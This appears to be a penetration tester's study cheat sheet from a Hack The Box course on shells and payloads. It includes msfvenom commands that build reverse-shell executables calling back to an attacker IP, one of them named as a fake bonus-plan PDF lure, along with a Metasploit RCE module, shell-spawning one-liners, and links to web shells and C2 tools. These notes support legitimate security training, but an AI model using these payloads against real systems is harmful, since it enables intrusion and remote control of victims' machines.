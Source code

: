 `L3pr3ch4un@htb[/htb]$ sudo nmap -v 192.168.86.39 --script banner.nse`


## Anatomy of a Shell

| Terminal Emulator | Operating System |
| --- | --- |
| https://github.com/microsoft/terminal | Windows |
| https://cmder.app/ | Windows |
| https://www.putty.org/ | Windows |
| https://sw.kovidgoyal.net/kitty/ | Windows, Linux and MacOS |
| https://github.com/alacritty/alacritty | Windows, Linux and MacOS |
| https://invisible-island.net/xterm/ | Linux |
| https://en.wikipedia.org/wiki/GNOME_Terminal | Linux |
| https://github.com/mate-desktop/mate-terminal | Linux |
| https://konsole.kde.org/ | Linux |
| https://en.wikipedia.org/wiki/Terminal_(macOS) | MacOS |
| https://iterm2.com/ | MacOS |

```
[!bash!]$ ps
[!bash!]$ env
$PSversiontable
```

## Reverse Shell

![](https://academy.hackthebox.com/storage/modules/115/bindshell.png)

## Bind

![](https://academy.hackthebox.com/storage/modules/115/reverseshell.png)

## Msfvenom

``[!bash!]**$** msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf`

`[!bash!]**$** msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe``

### **Payload Types to Consider**

- [DLLs](https://docs.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library)
- [Batch](https://commandwindows.com/batch.htm) 
- [VBS](https://www.guru99.com/introduction-to-vbscript.html) 
- [MSI](https://docs.microsoft.com/en-us/windows/win32/msi/windows-installer-file-extensions)
- [Powershell](https://docs.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.1)

## Payload Generation

| Resource | Description |
| --- | --- |
| MSFVenom & Metasploit-Framework | https://github.com/rapid7/metasploit-framework MSF is an extremely versatile tool for any pentester's toolkit. It serves as a way to enumerate hosts, generate payloads, utilize public and custom exploits, and perform post-exploitation actions once on the host. Think of it as a swiss-army knife. |
| Payloads All The Things | https://github.com/swisskyrepo/PayloadsAllTheThings Here, you can find many different resources and cheat sheets for payload generation and general methodology. |
| Mythic C2 Framework | https://github.com/its-a-feature/Mythic The Mythic C2 framework is an alternative option to Metasploit as a Command and Control Framework and toolbox for unique payload generation. |
| Nishang | https://github.com/samratashok/nishang Nishang is a framework collection of Offensive PowerShell implants and scripts. It includes many utilities that can be useful to any pentester. |
| Darkarmour | https://github.com/bats3c/darkarmour Darkarmour is a tool to generate and utilize obfuscated binaries for use against Windows hosts. |


`L3pr3ch4un@htb[/htb]**$** nmap -sC -sV 10.129.201.101`

Metasploit exploit modules are kept in:

`/usr/share/metasploit-framework/modules/exploits`

`msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce`

****Spawning a TTY Shell with Python****

`python -c 'import pty; pty.spawn("/bin/sh")'`

```
| Method                       | Command/Script                                             | Notes                                   |
|------------------------------|------------------------------------------------------------|-----------------------------------------|
| Bourne Shell (/bin/sh)        | `/bin/sh -i`                                               | Execute shell interpreter interactively |
| Perl                         | `perl -e 'exec "/bin/sh";'`                               | If Perl is present                      |
| Ruby                         | `ruby -e 'exec "/bin/sh"'`                                | If Ruby is present                      |
| Lua                          | `lua -e 'os.execute("/bin/sh")'`                          | If Lua is present                       |
| AWK                          | `awk 'BEGIN {system("/bin/sh")}'`                         | C-like language for shell spawning      |
| Find                         | `find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \\;` | Using Find and AWK for shell           |
| Using Exec with Find         | `find . -exec /bin/sh \\; -quit`                           | Using Exec with Find to launch a shell  |
| VIM                          | `vim -c ':!/bin/sh'`                                       | Setting shell interpreter in VIM       |
| VIM Escape                   | `vim`, `:set shell=/bin/sh`, `:shell`                     | Another way to set shell in VIM        |
| Permissions Check            | `ls -la <path/to/fileorbinary>`                           | Check file properties and permissions  |
| Sudo Permissions Check       | `sudo -l`                                                  | Check sudo permissions                  |

```

## Laudanum

- `https://github.com/jbarcia/Web-Shells/tree/master/laudanum`
- asp, aspx, jsp, php

## Antak

- Antak is a web shell built-in ASP.Net included within the Nishang project. 
- `/usr/share/nishang/Antak-WebShell`

## PHP Web Shells

- https://github.com/WhiteWinterWolf/wwwolf-php-webshell
- 

## References

- Quick payload generation: revshells.com
- TTL's: https://subinsb.com/default-device-ttl-values/
- 
